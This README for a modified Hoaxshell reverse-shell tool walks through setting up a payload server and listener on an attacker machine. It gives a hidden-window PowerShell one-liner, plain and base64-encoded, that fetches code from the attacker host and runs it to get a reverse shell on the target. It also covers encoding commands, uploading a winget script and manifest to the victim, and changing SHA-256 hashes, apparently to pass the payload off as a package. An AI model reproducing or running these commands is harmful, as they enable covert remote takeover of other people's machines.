 <img src="https://github.com/SentinelSamuel/sp-winget-RS-hoax/blob/main/img-for-Readme/Hoax.png" width="500">

# sp-hoaxshell

Copy of the real Hoaxshell (https://github.com/t3l3machus/hoaxshell) with modifications to automatise everything
& see : https://github.com/SentinelSamuel/sp-hoaxshell

## Installation + configuration before the start
```
sudo git clone https://github.com/t3l3machus/hoaxshell.git
sudo rm ./hoaxshell/hoaxshell.py
sudo git clone https://github.com/SentinelSamuel/sp-hoaxshell.git
sudo mv ./sp-hoaxshell/hoaxshell.py ./hoaxshell
sudo mv ./sp-hoaxshell/sp-hoax/ ./
sudo rm -rf ./sp-hoaxshell
sudo pip3 install -r ./hoaxshell/requirements.txt
sudo chmod +x ./hoaxshell/hoaxshell.py
cd sp-hoax/
```

### 1) Start Python server
```
# maybe a sudo before ?
bash python-server-1.sh
```
<img src="https://github.com/SentinelSamuel/sp-winget-RS-hoax/blob/main/img-for-Readme/Picture2.png" width="500">

### 2) Start hoaxshell
```
# IN ANOTHER BASH PROMPT
# maybe a sudo before ?
bash hoaxshell-2.sh  
```
<img src="https://github.com/SentinelSamuel/sp-winget-RS-hoax/blob/main/img-for-Readme/Picture3.png" width="500">

### 3) Make the info file correct
```
# IN ANOTHER BASH PROMPT
# maybe a sudo before ?
pwsh info-3.ps1
```
<img src="https://github.com/SentinelSamuel/sp-winget-RS-hoax/blob/main/img-for-Readme/Picture4.png" width="500">

## Some infos :
```
# Not encoded :
$e=Invoke-RestMethod -Uri "http://10.1.1.3:70/sp-hoax/info"; powershell -WindowStyle hidden -e $e
```
```
# Encoded with this :
$text='<Your commands>'
$encoded=[convert]::ToBase64String([Text.Encoding]::Unicode.getBytes($text))
$encoded
```
```
# Encoded & used in the scripts to reverse-shell the targeted machine
powershell -WindowStyle hidden -e "JABlAD0ASQBuAHYAbwBrAGUALQBSAGUAcwB0AE0AZQB0AGgAbwBkACAALQBVAHIAaQAgACIAaAB0AHQAcAA6AC8ALwAxADAALgAxAC4AMQAuADMAOgA3ADAALwBzAHAALQBoAG8AYQB4AC8AaQBuAGYAbwAiADsAIABwAG8AdwBlAHIAcwBoAGUAbABsACAALQBXAGkAbgBkAG8AdwBTAHQAeQBsAGUAIABoAGkAZABkAGUAbgAgAC0AZQAgACQAZQA="
```

## AFTER INSTALLING AND DOING EVERYTHING IN THE sp-hoaxshell
Winget.ps1 & winget-manifest.yml --> upload on the target machine

## Installation & configuration before the start :
```
git clone https://github.com/SentinelSamuel/sp-winget-RS-hoax.git
cd ./sp-winget-RS-hoax/winget
``` 

### 4) Start Sha256 changer
```
sudo bash change-sha256.sh
```
